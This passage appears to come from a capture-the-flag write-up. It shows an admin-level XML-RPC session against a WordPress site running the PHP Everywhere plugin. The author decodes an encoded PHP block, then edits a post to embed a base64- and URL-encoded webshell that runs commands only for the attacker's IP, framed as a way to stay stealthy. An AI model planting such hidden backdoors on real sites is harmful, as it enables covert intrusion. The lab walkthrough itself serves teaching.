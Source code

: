 Curious to see how it is doing the live updates on the User Agent strings, I’ll grab the content:

```

>>> plist[0].content
'<!-- wp:paragraph -->\n<p>The UHC January Finals are underway!  After this event, there are only three left until the season one finals in which all the previous winners will compete in the Tournament of Champions. This event a total of eight players qualified, seven of which are from Brazil and there is one lone Canadian.  Metrics for this event can be found below.</p>\n<!-- /wp:paragraph -->\n\n<!-- wp:php-everywhere-block/php {"code":"JTNDJTNGcGhwJTIwJTIwZWNobyhmaWxlX2dldF9jb250ZW50cygnJTJGdmFyJTJGd3d3JTJGaHRtbCUyRm91dHB1dC5sb2cnKSklM0IlMjAlM0YlM0U=","version":"3.0.0"} /-->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->'

```

This part is interesting:

```

<!-- wp:php-everywhere-block/php {"code":"JTNDJTNGcGhwJTIwJTIwZWNobyhmaWxlX2dldF9jb250ZW50cygnJTJGdmFyJTJGd3d3JTJGaHRtbCUyRm91dHB1dC5sb2cnKSklM0IlMjAlM0YlM0U=","version":"3.0.0"} /-->

```

Decoding that in [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)URL_Decode()&input=SlROREpUTkdjR2h3SlRJd0pUSXdaV05vYnlobWFXeGxYMmRsZEY5amIyNTBaVzUwY3lnbkpUSkdkbUZ5SlRKR2QzZDNKVEpHYUhSdGJDVXlSbTkxZEhCMWRDNXNiMmNuS1NrbE0wSWxNakFsTTBZbE0wVT0) (both base64 and url) gives a simple PHP block:

![image-20220201081617286](https://0xdfimages.gitlab.io/img/image-20220201081617286.png)

It seems it is running this code to generate the table on the site by reading it from this log file.

[PHP Everywhere](https://wordpress.org/plugins/php-everywhere/) is a WordPress plugin that allows for the running of PHP within WordPress posts. That seems to be what I’m dealing with.

### Write Webshell

Because I have access as the admin user, I can do basically anything over this XML-RPC. But with an eye towards being somewhat stealthy (this is a shared instance, and if I were competing in UHC I wouldn’t want to give away my path to other competitors), I’ll modify the post to contain a webshell that only shows up from my IP:

![image-20220201083004841](https://0xdfimages.gitlab.io/img/image-20220201083004841.png)

I’ll get the `Post` instance in Python and modify the content:

```

>>> mod_post = plist[0]
>>> mod_post.content = '<!-- wp:paragraph -->\n<p>The UHC January Finals are underway!  After this event, there are only three left until the season one finals in which all the previous winners will compete in the Tournament of Champions. This event a total of eight players qualified, seven of which are from Brazil and there is one lone Canadian.  Metrics for this event can be found below.</p>\n<!-- /wp:paragraph -->\n\n<!-- wp:php-everywhere-block/php {"code":"JTNDP3BocCUyMCUwQSUyMCUyMGVjaG8oZmlsZV9nZXRfY29udGVudHMoJy92YXIvd3d3L2h0bWwvb3V0cHV0LmxvZycpKTslMjAlMEElMjAlMjBpZiUyMCgkX1NFUlZFUiU1QidSRU1PVEVfQUREUiclNUQlMjA9PSUyMCcxMC4xMC4xNC42JyklMjAlN0IlMEElMjAlMjAlMjAlMjBzeXN0ZW0oJF9SRVFVRVNUJTVCJ2NtZCclNUQpOyUwQSUyMCUyMCU3RCUyMCUwQT8lM0U=","version":"3.0.0"} /-->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->'
>>> client.call(posts.EditPost(mod_post.id, mod_post))

```
